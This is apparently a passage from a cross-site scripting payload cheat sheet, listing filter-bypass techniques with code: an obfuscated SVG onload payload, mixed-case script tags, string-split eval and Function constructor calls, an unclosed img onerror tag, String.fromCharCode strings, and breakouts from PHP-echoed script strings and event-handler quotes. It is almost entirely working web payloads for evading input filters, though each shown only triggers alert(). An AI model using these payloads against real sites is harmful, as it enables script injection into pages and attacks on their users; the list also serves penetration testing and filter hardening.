 ```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

## Filter Bypass and exotic payloads

Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

Bypass with incomplete html tag - IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

Bypass quotes in mousedown event

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>

You can bypass a single quote with &#39; in an on mousedown event handler
```
